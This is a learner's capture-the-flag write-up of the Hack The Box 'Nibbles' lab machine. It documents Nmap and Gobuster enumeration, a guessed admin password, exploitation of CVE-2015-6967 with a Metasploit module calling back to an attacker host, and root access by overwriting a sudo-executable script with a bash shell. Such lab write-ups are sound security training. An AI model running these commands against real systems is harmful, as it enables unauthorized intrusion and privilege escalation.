




**Difficulty:** Easy
**OS:** Linux
**Date Completed:** 2026-09-02
**Write-up Authored by:** Ian Simons
**Challenge Created by:** mrb3n8132
**Core Competencies:**
- Network Enumeration with **Nmap**
- Manual Web Enumeration
- Web Enumeration with **Gobuster**
- Vulnerability Research
- Initial Access with **Metasploit**
- Privilege Enumeration
- Privilege Escalation

---
## Overview
This Box was completed as part of the Hack the Box Academy Job Role Path "Penetration Tester" in the "Getting Started" Module. The purpose of completing this box is to build familiarity with the Hack the Box platform. While the Academy module walks the user through this Box, I opted to complete it on my own using my existing, albeit limited, skillset. Additionally, this was another opportunity to sharpen my **Metasploit** fundamentals.
Note: Flags documented in Appendix B

---
## Vulnerability summary

| Vulnerability                            | Vulnerability Classification                                      | CVSS Score    | MITRE ATT&CK Technique                                               | ATT&CK Tactic        |
| ---------------------------------------- | ----------------------------------------------------------------- | ------------- | -------------------------------------------------------------------- | -------------------- |
| Nibbleblog 4.0.3 - Arbitrary File Upload | CVE-2015-6967                                                     | 6.5 (CVSS v2) | T1190 - Exploit Public-Facing Application                            | Initial Access       |
| Weak Credentials                         | CWE - 521 - Weak Password Requirements                            | N/A           | T1078 - Valid Accounts                                               | Initial Access       |
| Writable Script Executable via Sudo      | CWE - 732 - Incorrect Permission Assignment for Critical Resource | N/A           | T1548.003 - Abuse Elevation Control Mechanism: Sudo and Sudo Caching | Privilege Escalation |

---
## Attack Path Summary
1. Performed network reconnaissance with **Nmap** and identified **OpenSSH 7.2p2** running on Ubuntu as well as **Apache HTTP Server 2.4.18** 
2. Performed web enumeration, and identified **Nibbleblog v4.0.3** 
3. Identified the username **admin** in a configuration file
4. Identified valid credentials `admin:nibbles` through contextual password analysis
5. Leveraged the **Metasploit Framework** module **exploit/multi/http/nibbleblog_file_upload** to gain initial access to the machine
6. Identified that the current user had **NOPASSWD** sudo privileges for **/home/nibbler/personal/stuff/monitor.sh**
7. Identified that current user has write access to **/home/nibbler/personal/stuff/monitor.sh**
8. Edited the script **monitor.sh** to spawn a root shell and ran script, successfully achieving root privileges
---
## Reconnaissance
### Port Discovery
Nmap scan results
```
┌─[us-dedivip-3]─[10.10.14.169]─[n00blyfe@htb-cmbv9jzfzm]─[~]
└──╼ [★]$ sudo nmap -sC -sV -oN scan.txt 10.129.64.28
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-02 14:01 EDT
Nmap scan report for 10.129.64.28
Host is up (0.0085s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds

```

#### Key Open Ports and Services

| Port   | Service | Version             |
| ------ | ------- | ------------------- |
| 22/TCP | SSH     | OpenSSH 7.2p2       |
| 80/TCP | HTTP    | Apache httpd 2.4.18 |

### Web Enumeration 
Web application returned a page displaying only "Hello world!", but a comment in the html said, `<!-- /nibbleblog/ directory. Nothing interesting here! -->`. Upon navigating to **/nibbleblog** an empty blog was found, in the bottom right stating it was "Powered by Nibbleblog" ran a **Gobuster** scan against the blog and found the following results.
```
┌─[us-dedivip-3]─[10.10.14.169]─[n00blyfe@htb-cmbv9jzfzm]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.64.28/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.64.28/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 325] [--> http://10.129.64.28/nibbleblog/content/]
/themes               (Status: 301) [Size: 324] [--> http://10.129.64.28/nibbleblog/themes/]
/admin                (Status: 301) [Size: 323] [--> http://10.129.64.28/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 325] [--> http://10.129.64.28/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 327] [--> http://10.129.64.28/nibbleblog/languages/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

Identified nibble blog version of 4.0.3 on **/nibbleblog/README** which was publicly accessible.
Identified username **admin** in the file **/nibbleblog/content/private/users.xml** which was publicly accessible.
### Vulnerability Research
Publicly Accessible page **/nibbleblog/README** identified Nibbleblog version 4.0.3. Research identified CVE-2015-6967 an arbitrary file upload vulnerability allowing remote code execution through the **my_image** plugin, and an existing **Metasploit** module.

---
## Initial Access
### Vulnerability Details
- Description: Nibbleblog 4.0.3 - Arbitrary File Upload, Weak Credentials
- Vulnerability Classification: CVE-2015-6967, CWE - 521 - Weak Password Requirements
- CVSS score: 6.5 (CVSS v2), N/A
- MITRE ATT&CK: Initial Access - T1190: Exploit Public-Facing Application, Initial Access - T1078: Valid Accounts

Nibble Blog 4.0.3 is vulnerable to an unrestricted file upload. This means that administrators can upload files with an executable extension which would then allow them to execute arbitrary code using a direct request to **/content/private/plugins/my_image/image.php**. There is an existing **Metasploit** Module for this vulnerability and as I am working to improve my **Metasploit skills** we will utilize this module.
#### Exploitation Steps
Based on the identified Nibble Blog 4.0.3 vulnerability we identified, the **Metasploit** module **exploit/multi/http/nibbleblog_file_upload** was selected because it specifically targets CVE-2015-6967. Only the username admin had been identified so far. Because the application enforced a strict login lockout policy, traditional password spraying or guessing attacks were not feasible. However, the machine name, application name, and username all revolved around the term "nibble", making "nibbles" a reasonable contextual password candidate. Authentication was successful using this credential. 

1. Launch Metasploit framework
2. Select module **exploit/multi/http/nibbleblog_file_upload** targeting CVE-2015-6967 
3. Configure target and callback parameters
4. Execute the exploit and obtain a remote session
#### Key Commands / Payloads
```
# launch Metasploit Framework console
msfconsole

# select appropriate exploit module
use exploit/multi/http/nibbleblog_file_upload

# set appropriate options for module
set PASSWORD nibbles
set RHOST <TARGET_IP>
set RPORT 80
set TARGETURI /nibbleblog/
set USERNAME admin
set LHOST <ATTACKER_IP>
set LPORT 4444

# run exploit
run
```

#### Proof of Access 
##### Screenshots

Figure 1: Proof of initial access. Successful exploitation of CVE-2015-6967 resulted in command execution on the target host. Session validated by confirming execution context, hostname, and operating system.
##### Session Validation Commands
```
#Check user context
whoami

#Verify target hostname
hostname

#Verify operating system version
 uname -a
```

---
## Privilege Escalation 
### Vulnerability Details
- Description: Writable Script Executable via Sudo
- Vulnerability Classification: CWE - 732 Sudo Misconfiguration 
- CVSS score: N/A
- MITRE ATT&CK:  Privilege Escalation - T1548.003: Abuse Elevation Control Mechanism: Sudo and Sudo caching

Enumeration of sudo privileges revealed that the user **nibbler** could execute **/home/nibbler/personal/stuff/monitor.sh** as root without providing a password. Because the user had write permissions within the script directory, it was possible to modify the script and execute arbitrary commands as root.
#### Exploitation Steps
1. Check current sudo privileges
2. Create required directories
3. Create malicious script
4. Change script permissions
5. Execute script with sudo and obtain root privileges
#### Key Commands / Payloads
```
# check current sudo privileges
sudo -l

# create necessary directories
mkdir -p /home/nibbler/personal/stuff

# create malicious script
echo "bash -c '/bin/bash'" > /home/nibbler/personal/stuff/monitor.sh

# change script permissions
chmod +x /home/nibbler/personal/stuff/monitor.sh

# run script as root
sudo /home/nibbler/personal/stuff/monitor.sh

# verify execution context
whoami

```

#### Proof of Privilege Escalation

 
Figure 2: Proof of Privilege Escalation. Successful exploitation resulted in execution within the root security context. Privileges were validated by confirming the execution context with the `whoami` command.

---
## Lessons Learned 
This box really pushed me. While I did use **Gobuster** for some web directory enumeration, I still did plenty of manual Web Enumeration. This really helped build my Web Enumeration skills, as well as improve my confidence as I am still quite new to offensive security. The Privilege Escalation section also pushed me. However it was really cool to see examples covered in Academy used in the wild some key takeaways include:
- Findings, no matter how small, can lead lead to significant compromoze
- Make zero assumptions, nibble blog at first just seemed like the name of the blog, and I absent-mindedly assumed it was for longer than I would like to admit. 
- Slow down while performing Enumeration, don't rush or you may miss obvious opportunities
---
## Appendix
### Appendix A
#### Tools Used 
| Tool                 | Purpose                                                                       |
| -------------------- | ----------------------------------------------------------------------------- |
| Nmap                 | Network Reconnaissance, Service Discovery, and version detection              |
| SearchSploit         | Vulnerability research and exploit identification                             |
| Metasploit Framework | Exploitation, session management, post-exploitation, and privilege escalation |

### Appendix B
#### Flags found

User Flag:
700c\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*7d1


Root Flag:
aa4\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*6e9

### Appendix C
#### Supporting Evidence
No additional supporting evidence was required beyond the artifacts included throughout this write-up